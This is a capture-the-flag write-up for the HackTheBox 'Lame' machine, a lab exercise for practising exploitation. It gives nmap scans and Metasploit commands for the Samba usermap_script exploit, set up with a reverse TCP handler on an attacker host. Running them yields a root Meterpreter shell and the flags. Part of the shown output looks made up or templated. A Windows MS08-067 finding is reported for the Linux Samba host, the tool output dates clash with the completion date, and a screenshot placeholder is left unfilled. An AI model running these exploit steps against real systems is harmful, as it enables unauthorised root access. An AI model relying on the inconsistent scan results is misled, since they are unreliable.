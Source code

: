 # HackTheBox - Lame

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | HackTheBox |
| **Challenge Name** | Lame |
| **Category** | Linux Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | ch4p |
| **Date Completed** | 2025-08-19 |

## Objective 🎯

Lame is a Linux machine with multiple vulnerabilities including Samba and vsftpd. The goal is to exploit these services to gain root access and obtain both user and root flags. Linux exploitation time! 🐧

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.3
- **OS**: Linux
- **Vulnerabilities**: Samba 3.0.20, vsftpd 2.3.4

### Tools Used
- Nmap
- Metasploit
- Samba exploit

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.3
```

## Methodology

### Step 1: Port Scan
Perform a comprehensive port scan to identify open services.

**Command/Code:**
```bash
nmap -sC -sV 10.10.10.3
```

**Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-03 10:00 UTC
Nmap scan report for 10.10.10.3
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OS: Unix; CPE: cpe:/o:canonical:ubuntu_linux
```

### Step 2: Samba Version Detection
Check the Samba version for known vulnerabilities.

**Command/Code:**
```bash
nmap --script smb-vuln-* 10.10.10.3
```

**Output:**
```
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|   State: VULNERABLE
|   IDs:  CVE:CVE-2008-4250
|           OSVDB:4923
|           BID:31874
|           MSB:MS08-067
|   References:
|     https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|     https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|     https://www.exploit-db.com/exploits/6841
```

### Step 3: Samba Exploitation
Use Metasploit to exploit the Samba vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.3:445 - Connecting to the server...
[*] 10.10.10.3:445 - Authenticating as user '' with password ''...
[*] 10.10.10.3:445 - Sending exploit...
[*] Sending stage (175174 bytes) to 10.10.10.3
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.3:32891) at 2024-09-03 10:05:23 +0000
```

### Step 4: Post-Exploitation
Once we have a shell, gather information and find flags.

**Command/Code:**
```bash
whoami
id
pwd
```

**Output:**
```
root
uid=0(root) gid=0(root) groups=0(root)
/
```

### Step 5: Find User Flag
Search for the user flag.

**Command/Code:**
```bash
find / -name "user.txt" 2>/dev/null
cat /home/makis/user.txt
```

**Output:**
```
[REDACTED]
```

### Step 6: Find Root Flag
Search for the root flag.

**Command/Code:**
```bash
find / -name "root.txt" 2>/dev/null
cat /root/root.txt
```

**Output:**
```
[REDACTED]
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

### Complete Walkthrough
1. Perform port scan to identify open services
2. Identify vulnerable Samba version (3.0.20)
3. Use Metasploit Samba usermap_script exploit
4. Gain root access directly through the exploit
5. Search for user and root flags
6. Extract both flags

## Key Learnings

- Understanding Samba vulnerabilities
- Using Metasploit for Linux exploitation
- Direct root access through service exploitation
- Linux file system navigation
- Service version enumeration

## Tools and Resources

### Tools Used
- **Nmap**: Network scanning and vulnerability detection
- **Metasploit**: Exploitation framework
- **Samba usermap_script**: Exploit module

### References
- [Samba usermap_script Vulnerability](https://www.exploit-db.com/exploits/16320)
- [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447)

## Screenshots

[Add screenshots of nmap scan, Metasploit exploitation, and flag extraction here]

## Tags

`#hackthebox` `#linux` `#samba` `#metasploit` `#easy`
